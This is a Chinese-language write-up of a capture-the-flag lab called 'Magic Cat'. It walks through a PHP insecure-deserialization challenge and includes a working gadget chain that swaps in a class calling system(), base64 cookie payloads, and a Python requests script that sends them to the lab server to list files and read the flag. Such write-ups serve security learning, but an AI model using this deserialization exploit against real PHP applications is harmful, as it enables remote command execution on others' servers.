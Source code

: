 # lab_Magic_Cat

1. 這題打開來後，他提示 /?source 可以看到 Source Code，然後要求我們要在 /?spell= 之後拼出 cat ，我先連進網站，大致上看了一下程式碼，比較重要的是這邊，如果網址中有 'spell' 參數，則建立一個新的 Cat 物件，並將值給 $cat 變數，網址中沒有 'spell' 參數，但 cookie 中有 'cat'，則顯示 "Unserialize...\n"，並將 cookie 中的值反序列化（base64_decode、unserialize）後儲存在變數 $cat 中，如果網址中也沒有 'spell' 參數，且 cookie 中也沒有 'cat'，則建立一個新的 Cat 物件，並將 "meow-meow-magic" 賦值給 $cat 變數。然後它會在 This is your cat 後面執行 var_dump($cat)。
    
    ![截圖 2023-01-05 上午11.16.24.png](lab_Magic_Cat%200ff7330359604ba9b2ab8074519dbad4/%25E6%2588%25AA%25E5%259C%2596_2023-01-05_%25E4%25B8%258A%25E5%258D%258811.16.24.png)
    
    ![截圖 2023-01-05 上午11.18.26.png](lab_Magic_Cat%200ff7330359604ba9b2ab8074519dbad4/%25E6%2588%25AA%25E5%259C%2596_2023-01-05_%25E4%25B8%258A%25E5%258D%258811.18.26.png)
    
2. 然後我們只需要將 cookie 控為我們要的內容，就會跟上一題一樣把值給 $cat，讓它執行 $cat。
    
    ![截圖 2023-01-05 上午11.15.20.png](lab_Magic_Cat%200ff7330359604ba9b2ab8074519dbad4/%25E6%2588%25AA%25E5%259C%2596_2023-01-05_%25E4%25B8%258A%25E5%258D%258811.15.20.png)
    

1. 最後我們用跟差 lab_Baby_Cat 差不得多方式，將$Cat 序列化之後，在把值設為 Cookie ，並對網站出 Request ，就可以成功執行我們的指令，然後會發現根目錄有個 flag_5fb2acebf1d0c558 檔案，用 Cat 將他打開後就可以成功取得 FLAG。

```php
<?php

class Magic
{
    function cast($spell)
    {
        echo "<script>alert('MAGIC, $spell!');</script>";
    }
}

// Useless class?
class Caster
{
    public $cast_func = 'system';
    function cast($val)
    {
        return ($this->cast_func)($val);
    }
}

class Cat
{
    public $magic;
    public $spell;
    function __construct($spell)
    {
        $this->magic = new Magic();
        $this->spell = $spell;
    }
    function __wakeup()
    {
        echo "Cat Wakeup!\n";
        $this->magic->cast($this->spell);
    }
}
#$cat = new Cat("ls");
#$cat = new Cat("ls /");
$cat = new Cat("cat /flag*");
$cat->magic = new Caster();
var_dump($cat);
echo base64_encode(serialize($cat));

?>
```

```python
import requests

# $(ls)
#cookies={"cat": "TzozOiJDYXQiOjI6e3M6NToibWFnaWMiO086NjoiQ2FzdGVyIjoxOntzOjk6ImNhc3RfZnVuYyI7czo2OiJzeXN0ZW0iO31zOjU6InNwZWxsIjtzOjI6ImxzIjt9"}
# $(ls /)
#cookies={"cat": "TzozOiJDYXQiOjI6e3M6NToibWFnaWMiO086NjoiQ2FzdGVyIjoxOntzOjk6ImNhc3RfZnVuYyI7czo2OiJzeXN0ZW0iO31zOjU6InNwZWxsIjtzOjQ6ImxzIC8iO30="}
# $(cat /flag_5fb2acebf1d0c558)
cookies={"cat": "TzozOiJDYXQiOjI6e3M6NToibWFnaWMiO086NjoiQ2FzdGVyIjoxOntzOjk6ImNhc3RfZnVuYyI7czo2OiJzeXN0ZW0iO31zOjU6InNwZWxsIjtzOjEwOiJjYXQgL2ZsYWcqIjt9"}

r = requests.get("http://h4ck3r.quest:8602", cookies=cookies)
#print(r.content)
string = r.content.split(b'\n')
[print(string[i]) for i in range(len(string))]
```

![截圖 2023-01-05 上午11.38.47.png](lab_Magic_Cat%200ff7330359604ba9b2ab8074519dbad4/%25E6%2588%25AA%25E5%259C%2596_2023-01-05_%25E4%25B8%258A%25E5%258D%258811.38.47.png)